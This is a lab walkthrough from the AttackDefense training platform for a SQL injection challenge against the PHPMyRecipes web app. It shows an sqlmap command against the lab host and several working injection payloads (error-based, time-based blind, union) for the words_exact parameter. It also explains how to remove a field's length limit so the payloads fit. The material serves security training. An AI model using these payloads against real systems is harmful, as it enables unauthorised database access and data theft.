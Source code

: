 ﻿![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.001.png)

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">PHPMyRecipes </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=253>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Real World Webapps : SQL Injection </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Solution:**  

**Step 1:** Inspect the web application. ![ref2]

![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.004.jpeg)

**Step 2:** Search on google “PHPMyRecipes sql injection” and look for publically available exploits.**  

![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.005.jpeg)

The exploit db link contains a python script which can be used to exploit the SQL Injection vulnerability.  

**Exploit DB Link: <https://www.exploit-db.com/exploits/35365>** ![ref2]

**Step 3:** Find the SQL Injection payload using sqlmap. ![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.006.jpeg)

Analysis of the python script reveals that the “words\_exact” parameter sent in POST request to the web page “dosearch.php” webpage is vulnerable.  

**Vulnerable web page**: /dosearch.php **Vulnerable parameter:** words\_exact 

**Command:** sqlmap -u "http://xcsokyoocmginvr24rsewa6py.public1.attackdefenselabs.com/dosearch.php" --data "words\_exact=" -p words\_exact --method POST 

Enter the following answer when asked for questions. 

“y” for “Do you want to skip test payloads specific for other DBMses?”  ![ref2]

“y” for “do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values?”  

“n” for “Do you want to keep testing the others (if any) ?” 


![ref1]

![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.007.jpeg)

![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.008.jpeg)

![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.009.png)

![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.010.jpeg)

**Payloads: ![ref1]**

**Type:** Error Based**  

**Payload:** words\_exact=' IN BOOLEAN MODE) AND (SELECT 2\*(IF((SELECT \* FROM (SELECT CONCAT(0x7178626a71,(SELECT (ELT(1595=1595,1))),0x7178707071,0x78))s), 8446744073709551610, 8446744073709551610)))#** 

**Type:** AND/OR time-based blind  

**Payload:** words\_exact=' IN BOOLEAN MODE) OR (SELECT \* FROM (SELECT(SLEEP(5)))olpT)# 

**Type:** Union Query 

**Payload:** words\_exact=' IN BOOLEAN MODE) UNION ALL SELECT CONCAT(0x7178626a71,0x6574657668654558444f4a666a4b514b637179786e7841777a7042 696554625943694d4c70556150,0x7178707071),NULL# 

**Step 4:** Navigate to Search tab and remove the character length restriction from the “with exact phrase” text field 

Click on the “Search” tab on the left panel ![ref2]

![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.011.jpeg)By default in the “with exact phrase” text field only 80 characters can be entered. Since the payload is larger than 80 characters, modify the html tag to remove the restriction. ![ref1]

Right click on the “with exact phrase” text field and click on inspect element.  ![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.012.jpeg)

Click on “maxlength” attribute of the input tag and hit delete key. ![ref2]

**Before:**  ![ref1]

![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.013.png)

**After:**  

![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.014.png)

**Step 5:** Inject the Error based payload in the “with exact phrase” text field and exploit the SQL injection vulnerability.  

**Payload:**  'and(select 1 from(select count(\*),concat((select version() from information\_schema.tables limit 0,1),floor(rand(0)\*2))x from information\_schema.tables group by x)a)and' ![ref2]

![ref1]

![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.015.png)

Click on the Search button. 

![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.016.jpeg)

The injected SQL query was executed.  ![ref2]

**Step 6:** Modify the payload and retrieve the MySQL server version information. Repeat Step 4 first.  

Modify the payload used in step 5 to dump the MySQL server version. 

**Modified Payload:** ' IN BOOLEAN MODE) AND (SELECT 2\*(IF((SELECT \* FROM (SELECT CONCAT(0x7178626a71,(SELECT (ELT(1595=1595,1))),0x7178707071,version()))s), 8446744073709551610, 8446744073709551610)))# 

![](Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.017.jpeg)

The MySQL Server version is revealed.  **References:**  

1. PHPMyRecipes (<http://php-myrecipes.sourceforge.net/>)  ![ref2]
1. PHPMyRecipes 1.2.2 - 'dosearch.php?words\_exact' SQL Injection (<https://www.exploit-db.com/exploits/35365>)  
1. Sqlmap (<http://sqlmap.org/>)  

[ref1]: Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.002.png
[ref2]: Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.003.png
